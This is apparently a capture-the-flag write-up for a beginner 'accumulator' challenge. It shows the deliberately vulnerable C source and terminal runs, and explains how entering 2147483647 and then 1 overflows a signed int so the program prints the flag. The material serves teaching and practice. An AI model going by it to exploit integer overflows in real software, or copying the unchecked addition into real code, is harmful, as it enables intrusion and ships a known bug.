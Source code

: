 # accumulator

### Description

I found this program (accumulator64 file) that lets me add positive numbers to a variable,
but it won't give me a flag unless that variable is negative! Can you help me out?
Navigate to /problems/accumulator/ on the shell server to try your exploit out!

hint: How many bytes can an int store? How are positive and negative numbers represented in C?

### Solving

Okay, we have the binary file and a source code. The flag is on the remote server that runs given binary. So we need to find and exploit the binary's vulnerability. Let's do this.

First, let's try to run the binary.
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./accumulator64
The accumulator currently has a value of 0.
Please enter a positive integer to add: 1
The accumulator currently has a value of 1.
Please enter a positive integer to add: 2
The accumulator currently has a value of 3.
Please enter a positive integer to add: 3
The accumulator currently has a value of 6.
Please enter a positive integer to add: 4
The accumulator currently has a value of 10.
Please enter a positive integer to add: 5
The accumulator currently has a value of 15.
Please enter a positive integer to add: 6
The accumulator currently has a value of 21.
Please enter a positive integer to add: ^C
</pre>

The programm just sums entered numbers with the accumulator. Fine, let's see the source code now.

```C
#include <stdlib.h>
#include <stdio.h>

int main(){

	int accumulator = 0;
	int n;
	while (accumulator >= 0){
		printf("The accumulator currently has a value of %d.\n",accumulator);
		printf("Please enter a positive integer to add: ");

		if (scanf("%d",&n) != 1){
			printf("Error reading integer.\n");
		} else {
			if (n < 0){
				printf("You can't enter negatives!\n");
			} else {
				accumulator += n;
			}
		}
	}
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	
	printf("The accumulator has a value of %d. You win!\n", accumulator);
	system("/bin/cat flag");

}
```

There are two variables - accumulator and some integer value named "n". After that, we see the loop, that continues while the accumulator value is positive. After this loop ends, executes the system command that prints the flag.

So, we need to make the accumulator value negative, but the problem is we are not to enter any negative. What do we do?

We remember that int variables take only 4 bytes of memory and it's maxed value equals to 2,147,483,647, and if we sum 1 to the variable with this value, it will overflow and take the value of minimal possible int value -2,147,483,648. Now the solution is obvious, we will input 2,147,483,647 first, and after that, we enter 1. Accumulator will take the negative value and we will get the flag.

Let's do this:

<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./accumulator64
The accumulator currently has a value of 0.
Please enter a positive integer to add: 2147483647
The accumulator currently has a value of 2147483647.
Please enter a positive integer to add: 1
The accumulator has a value of -2147483648. You win!
HACKERMAN!
</pre>
